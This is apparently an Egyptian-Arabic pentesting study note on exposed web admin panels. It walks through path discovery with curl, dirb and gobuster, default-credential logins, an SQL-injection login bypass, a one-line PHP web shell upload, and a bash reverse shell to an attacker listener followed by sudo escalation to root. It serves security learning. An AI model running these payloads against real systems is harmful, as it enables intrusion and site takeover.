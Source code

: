# **1. إيه هو Exposed Admin Panels؟**

## **الشرح العميق:**
ال"Exposed Admin Panels" يعني إن لوحات التحكم بتاعة الأدمن (Admin Panels) في موقع ويب أو نظام متاحة ومكشوفة لأي حد على الإنترنت بدون حماية كافية. اللوحات دي هي اللي بتدي الأدمن القدرة يتحكم في الموقع (زي إضافة مستخدمين، تغيير إعدادات، أو حذف بيانات)، ولما تكون مكشوفة، يعني أي حد يقدر يوصلها من غير ما يثبت إنه الأدمن. ده بيحصل كتير لما:
- المسار بتاعها واضح (زي `/admin` أو `/dashboard`).
- مافيش تسجيل دخول قوي أو حماية زي CAPTCHA أو 2FA.
- اللوحة متاحة للكل بسبب إعدادات ضعيفة.

## طرق اكتشافها :
### 1. **فحص المسارات الشائعة:**
   - جرب في المتصفح:
     - `http://target.com/admin`.
     - `http://target.com/dashboard`.
     - `http://target.com/login`.
   - لو ظهرت صفحة تسجيل دخول أو لوحة مباشرة، يبقى مكشوف.

### 2. **استخدام curl:**
   - `curl -I http://target.com/admin` -> لو رجع `200 OK`، يعني موجود ومفتوح.

### 3. **أدوات فحص:**
   - بـ Dirb أو Gobuster:
     - `dirb http://target.com /usr/share/wordlists/dirb/common.txt`.
     - لو لقيت `/admin` أو `/controlpanel`، جربها.

### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون سايب مكتب المدير مفتوح في الشارع، أي حد يقدر يخش يتحكم في كل حاجة! Exposed Admin Panels يعني مكان التحكم بتاع الموقع متاح للكل زي السوق."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
اللوحات دي خطيرة لأنها بتكون الباب الرئيسي للتحكم في الموقع أو النظام. لو المهاجم وصلها:
- **تحكم كامل:** يقدر يضيف مستخدمين، يمسح بيانات، أو يغير إعدادات.
- **سرقة بيانات:** يشوف كل حاجة زي بيانات العملاء أو كلمات السر.
- **زرع أكواد:** يرفع Shell أو Backdoor عشان يرجع تاني.
- **تصعيد صلاحيات:** لو اللوحة متصلة بالسيرفر، يقدر ياخد Root أو System.

في الـ Pentesting، اللوحات المكشوفة دي بتكون كنز لأنها بتديك وصول مباشر لكل حاجة من غير تعب كبير.

## طرق استغلالها لو لقتها :
### 1. **تجربة تسجيل دخول:**
   - لو لقيت `http://target.com/admin/login.php`:
     - جرب كلمات سر افتراضية:
       - Username: `admin` - Password: `admin`.
       - Username: `admin` - Password: `password`.

### 2. **استغلال بدون تسجيل:**
   - لو `http://target.com/admin` فتحت مباشرة:
     - ابحث عن خيار Upload أو Settings.

### 3. **SQL Injection للوصول:**
   - لو فيه Login:
     - `http://target.com/admin/login.php?user=admin' OR 1=1 -- &pass=anything`.
     - لو دخلت، يبقى مكشوف وضعيف.

## **خلاصة بالعامية المصرية:**
"اللوحة دي خطيرة لأنها زي مفتاح العربية، لو حد مسكه هياخد كل حاجة! المهاجم يلاقيها مفتوحة، يخش يلعب في الموقع زي ما يكون بيته."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم اللوحة المكشوفة عشان تتحكم في الموقع أو تاخد وصول أعلى للسيرفر.
- **مثال واقعي:** لو لقيت `/admin` مفتوح، ترفع Shell وتاخد Shell كامل.

## **خلاصة بالعامية المصرية:**
"لما تلاقي اللوحة مكشوفة، زي ما تكون لقيت كنز في لعبة، بتستخدمه عشان تتحكم في كل حاجة وتبقى الكبير بتاع الماتش!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

## **الخطوة 2: البحث عن Admin Panels**
- جرب مسارات شائعة:
  - `curl -I http://192.168.1.10/admin` -> لو `200 OK`، يبقى موجود.
  - `curl -I http://192.168.1.10/dashboard`.
- بـ Gobuster:
  - `gobuster dir -u http://192.168.1.10 -w /usr/share/wordlists/dirb/common.txt`.

## **الخطوة 3: اختبار الوصول**
- لو لقيت `/admin`:
  - افتحه: `http://192.168.1.10/admin`.
  - لو طلب Login:
    - جرب: `admin:admin` أو `admin:password`.
  - لو مفتوح مباشرة، ابحث عن Settings أو Upload.

## **الخطوة 4: استغلال اللوحة**
- لو دخلت:
  - ابحث عن مكان Upload:
    - ارفع Shell: `<?php system($_GET['cmd']); ?>` كـ `shell.php`.
    - افتح: `http://192.168.1.10/admin/shell.php?cmd=id` -> لو رجع `www-data`.
- لو فيه SQL Injection:
  - `http://192.168.1.10/admin/login.php?user=admin' OR 1=1 -- &pass=anything`.

## **الخطوة 5: تصعيد الصلاحيات**
- من الـ Shell:
  - `http://192.168.1.10/admin/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.
  - `id` -> `www-data` -> `sudo -l` -> لو لقيت `sudo /bin/bash`، نفذه -> `root`.

## **الخطوة 6: توثيق**
- سجل المسار اللي لقيته (زي `/admin`) وطريقة الدخول.
- قدم تقرير يوضح إزاي اللوحة المكشوفة فتحت الباب للتحكم.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت مكتب المدير مفتوح، خشيت، لعبته فيه، وطلعت الكبير بتاع الحتة! اللوحة المكشوفة دي طريقك للفوز بسهولة."

---

# **الخلاصة النهائية:**
Exposed Admin Panels هي ثغرة كبيرة لأنها بتديك وصول مباشر للتحكم في الموقع. في الـ Pentesting، دور عليها بـ curl أو Gobuster، استغلها عشان تدخل، ترفع Shell، أو تاخد صلاحيات أعلى، ووري العميل إن نظامه زي بيت بدون باب! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!


# اختبر حفظك : [[Exposed Admin Panels (Q)]]